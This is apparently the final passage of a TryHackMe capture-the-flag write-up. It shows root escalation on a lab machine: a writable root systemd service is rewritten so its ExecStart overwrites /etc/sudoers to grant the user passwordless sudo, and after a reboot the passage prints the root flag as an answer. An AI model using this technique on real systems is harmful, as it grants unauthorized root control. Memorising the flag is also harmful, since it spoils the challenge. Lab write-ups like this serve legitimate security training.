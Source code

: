 ```
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```
Update this script
```
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```
After that, we just need to reebot the machine
```
sudo /usr/sbin/reboot 
```
After the reboot
```
bash-4.2# whoami
root
```
```
bash-4.2# cat /root/root.txt
THM{b187ce4b85232599ca72708ebde71791}
```
**Question**
#### root.txt
**Answer** 
#### THM{b187ce4b85232599ca72708ebde71791}
